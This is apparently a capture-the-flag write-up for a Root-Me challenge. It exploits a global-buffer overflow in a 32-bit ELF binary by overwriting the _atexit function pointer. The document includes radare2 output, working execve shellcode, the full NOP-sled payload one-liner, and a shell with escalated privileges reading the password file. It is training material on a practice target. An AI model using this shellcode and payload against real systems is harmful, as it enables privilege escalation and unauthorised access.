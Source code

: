# BSS buffer overflow

    https://www.root-me.org/en/Challenges/App-System/ELF-x86-BSS-buffer-overflow

Name of challenge is BSS overflow.  Except that the global variables are initialised and, as can be seen from radare2 output, are in the .data.  Same method works regardless.

    [0xb7fdf030]> iS
    idx=24 vaddr=0x0804a020 paddr=0x00001020 sz=548 vsz=548 perm=--rw- name=.data
    idx=25 vaddr=0x0804a244 paddr=0x00001244 sz=8 vsz=8 perm=--rw- name=.bss
    
    [0xb7fdf030]> f
    vaddr=0x0804a040 paddr=0x00001040 ord=058 fwd=NONE sz=512 bind=GLOBAL type=OBJECT name=username
    vaddr=0x0804a240 paddr=0x00001240 ord=053 fwd=NONE sz=4 bind=GLOBAL type=OBJECT name=_atexit


Overflow of buffer into the _atexit function pointer.

                     512bytes |
    <nop padding> + <shellcode> + <obj.username>


Method:
    
    * Get address of string
    * NULL terminate the string
    * Setup and make call to sys_execve
    * Setup and make call to sys_exit


Of interest:

    * 0x09 is the TAB character and will cut off the cmdline argument


    ./shellcode.py
    shellcode: 
    \xeb\x1d\x5b\x31\xd2\x89\xd9\x83\xc1\x04\x83\xc1\x05\x88\x11\x31\xc0\xb0\x0b\x31\xc9\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xde\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41
    bytes    : 46

    $(python -c 'print "\x90" * 466 + "\xeb\x1d\x5b\x31\xd2\x89\xd9\x83\xc1\x04\x83\xc1\x05\x88\x11\x31\xc0\xb0\x0b\x31\xc9\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xde\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41" + "\x40\xa0\x04\x08"')

    $ id
    uid=1107(app-systeme-ch7) gid=1107(app-systeme-ch7) euid=1207(app-systeme-ch7-cracked) groups=1207(app-systeme-ch7-cracked),100(users),1107(app-systeme-ch7)
    $ cat .passwd
    ...
